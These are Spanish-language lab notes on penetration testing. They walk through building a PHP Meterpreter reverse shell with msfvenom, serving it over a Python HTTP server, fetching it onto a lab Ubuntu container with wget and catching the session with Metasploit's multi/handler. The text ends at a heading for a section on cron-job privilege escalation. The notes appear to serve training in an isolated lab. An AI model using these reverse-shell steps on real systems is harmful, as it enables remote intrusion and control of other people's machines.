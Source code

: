 ## Payloads con msfvenom y multi/handler

- Para crear un payload personalizado para tratar de explotar una página web vulnerable
- Cheatsheet msfvenom:
![](Untitled.png)

- El **tool msfvenom** es una aplicación que genera payloads en diferentes lenguajes de programación con diversos efectos maliciosos. Uno de los más típicos es ejecutar un reverse shell de Meterpreter en un sistema infectado
- Vamos a probar esto:
	- Inicia sesión en el contenedor de ubuntu como usuario sin privilegios (**testUser**)
	- El contenedor de escalada de privilegios Ubuntu puede ejecutar páginas web PHP con `php <fichero_php>` y cualquier usuario puede escribir páginas web en el directorio por defecto `/var/www/html`
	- El contenedor Ubuntu está en una IP fija
	- Creamos un payload de Meterpreter reverse shell con PHP (más info en: https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/): `msfvenom -p php/meterpreter_reverse_tcp LHOST=<tu dirección IP> LPORT=<tu puerto> -f raw > shell.php` ![](Pasted%20image%2020230601124144.png)
	- Ahora, para transferirlo a la máquina objetivo, creamos un servidor de python para leer archivos en un puerto determinado con: `python3 -m http.server <port>` ![](Pasted%20image%2020230601124901.png)
	- Ahora transferimos el archivo con: `wget http://<ip>:<port>/<file>` ![](Pasted%20image%2020230601130749.png)
	- Como el payload no se ejecutará dentro de msf, sino en la máquina remota, crea un payload listener `multi/handler` de la siguiente forma (usa un Stageless porque es un contenedor):
````bash
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST 172.12.0.2  
set LPORT 4444
````
- Ejecuta el exploit en segundo plano: `exploit -j`
- Ahora ejecutamos el shell.php en la máquina víctima: `php -f shell.php`
- Se nos crea una sesión: ![](Pasted%20image%2020230601131210.png)
- Para ver las sesiones activas: `sessions -l` ![](Pasted%20image%2020230601131237.png)
- Para iniciar sesión en una: `sessions -i <ID_SESSION>` ![](Pasted%20image%2020230601131435.png)
- Ahora ya podemos ejecutar comandos como en un shell normal: ![](Pasted%20image%2020230601131513.png) ![](Pasted%20image%2020230601131609.png)

## Escalada de privilegios a través de trabajos cron: Exfiltración de información privada (Scheduled Task/Job)
